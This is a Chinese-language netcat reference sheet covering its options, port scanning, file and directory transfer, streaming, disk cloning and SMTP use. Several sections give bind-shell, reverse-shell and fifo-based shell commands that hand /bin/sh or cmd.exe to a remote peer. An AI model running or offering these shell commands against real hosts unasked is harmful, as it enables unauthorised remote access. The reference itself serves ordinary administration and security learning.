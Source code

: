 ## what

+ netcat 是网络工具中的瑞士军刀, 它能通过TCP和UDP在网络中读写数据
+ 通过与其他工具结合和重定向, 你可以在脚本中以多种方式使用
+ netcat 所做的就是在两台电脑间建立连接并返回两个数据流, 你能建立一个服务器, 传输文件, 与朋友聊天, 传输流媒体或者用它作为其它协议的独立客户端

### arguments
-h, 查看帮助信息
-d, 后台模式
-e, prog程序重定向, 一旦连接就执行(危险)
-g <网关>, 设置路由器跃程通信网关, 最多可设置8个
-G <指向器数目>, 设置来源路由指向器, 其数值为4的倍数
-i <延迟秒数>, 设置时间间隔, 以便传送信息及扫描通信端口
-l, 使用监听模式, 监控传入的资料
-L, 监听模式, 连接关闭后仍然继续监听, 直到CTR+C
-n, 直接使用IP地址, 不使用DNS反向查询IP地址的域名
-o <输出文件>, 指定文件名称, 把往来传输的数据以16进制字码倾倒成该文件保存
-p <通信端口>, 设置本地主机使用的通信端口
-r, 乱数指定本地与远程主机的通信端口
-s <来源地址>, 设置本地主机送出数据包的IP地址
-t, 使用Telnet交互方式
-u, 使用UDP传输协议
-v, 详细输出, 用-vv将更详细
-w <超时秒数>, 设置等待连线的时间
-z, 使用0输入/输出模式, 连接成功后立即关闭连接, 只在扫描通信端口时使用
-q <秒数>, 接收到EOF后隔多长时间退出


## how

### 端口扫描
可以运行在TCP或者UDP模式, 默认是TCP, -u参数调整为UDP
> nc -z -v -n -w 5 172.31.100.7 21-25
这个命令会打印21到25所有开放的端口
> nc -v 172.31.100.7 21
一旦发现开放的端口, 使用netcat连接服务抓取banner
Banner是一个你连接的服务发送给你的文本信息
当你试图鉴别漏洞或者服务的类型和版本时, Banner信息非常有用
但并不是所有服务都会发送Banner

### 正向连接
-c string, 连接后执行一条shell命令
-e filename, 连接后运行一个文件
Server(A机器:172.31.100.7):
> nc -l -p 2222 -e /bin/sh //linux
> nc -l -p 2222 -e cmd.exe //windows
Client(B机器:172.31.100.23):
> nc 172.31.100.7 2222

### 反向连接
Server(A):
> nc -vv -l -p 2222
Client(B):
> nc -e /bin/sh 172.31.100.23 2222 //linux
> nc -e cmd.exe 172.31.100.23 2222 //windows

### Chat Server
Server(A):
> nc -l -p 1567
netcat命令在1567端口启动了一个tcp服务器
所有的标准输出和输入会输出到该端口, 输出和输入都在该shell中展示
Client(B):
> nc 172.31.100.7 1567
不管你在机器B上键入什么都会在机器A上

### 文件传输
Server(A):
> nc -l -p 1567 < file.txt
Client(B):
> nc -n 172.31.100.7 1567 > file.txt
在A机器创建服务器并且重定向输入文件为file.txt
当B机器连接到A, A发送文件内容, B保存文件内容到file.txt
Server(B):
> nc -l -p 1567 > file.txt
Client(A):
> nc 172.31.100.23 1567 < file.txt
发送文件从A到B, 但是服务器创建在B上

### 目录传输
Server(A):
> tar -cvf - dir_name | nc -l -p 1567
Client(B):
> nc -n 172.31.100.7 1567 | tar -xvf -
在A服务器上, 创建一个tar归档包并通过-在控制台重定向它, 然后使用管道, 重定向给netcat
在客户端通过netcat下载归档包
Server(A):
> tar -cvf - dir_name | bzip2 -z | nc -l -p 1567
Client(B):
> nc -n 172.31.100.7 1567 | bzip2 -d | tar -xvf -

### 加密通过网络发送的数据
Server(A):
> mcrypt --flush --bare -F -q -m ecb < file.txt | nc -l -p 1567
Client(B):
> nc 172.31.100.7 1567 | mcrypt --flush --bare -F -q -d -m ecb > file.txt

### 流视频
Server(A):
> cat video.avi | nc -l -p 1567
Client(B):
> nc 172.31.100.7 1567 | mplayer -vo x11 --cache 3000 -

### 克隆一个设备
Server(A):
> dd if=/dev/sda | nc -l -p 1567
Client(B):
> nc 172.31.100.7 1567 | dd of=/dev/sda
10. 手动使用SMTP协议通信
> nc localhost 25 << EOF
> HELO host.example.com
> MAIL FROM: <user@host.example.com>
> RCPT TO: <user2@host.example.com>
> DATA
> Body of email.
> .
> QUIT
> EOF

### 通过代理服务器连接
> nc -x10.2.3.4:8080 -Xconnect host.example.com 42
使用10.2.3.4:8080这个代理服务器, 连接到host.example.com的42端口

### 使用Unix Domain Socket
> nc -lU /var/tmp/dsocket
建立一个Unix Domain Socket, 并接收资料


## funny

### 不停监听模式(有的nc命令是-k参数)
> nc -L -p 80 > logs.txt //开启并不停的监听80端口, 直到CTR+C, 同时把结果输出到logs.txt
> nc -L -p 80 < files.txt //同时把files.txt文件内容送入管道中

### 特殊打开shell方式
Server(A):
> mkfifo /tmp/tmp_fifo  //创建fifo文件
> cat /tmp/tmp_fifo | /bin/sh -i 2>&1 | nc -l -p 1567 > /tmp/tmp_fifo
从网络收到的输入写入到fifo文件中
cat命令读取fifo文件并将其内容发给sh命令
sh命令进程收到输入并把它写回到netcat
netcat通过网络发送输出到client
(管道命令平行执行, fifo文件用来替代正常文件, 因为fifo使读取等待,
如果是一个普通文件, cat命令会尽快结束并开始读取空文件)
Client(B):
> nc -n 172.31.100.7 1567
在客户端会有一个shell提示符

### 其他用途
1. 使用-t选项模拟Telnet客户端
2. HTTP客户端用于下载文件
3. 连接邮件服务器, 使用SMTP协议检查邮件
4. 使用ffmpeg截取屏幕并通过流式传输分享
只要你了解协议就可以使用netcat作为网络通讯媒介, 实现各种客户端

### Remarks
cmd编码支持utf-8, chcp命令
> chcp  //查看当前编码, 默认为936(GB2312)
> chcp 65001  //切换为UTF-8, 活动代码页为65001
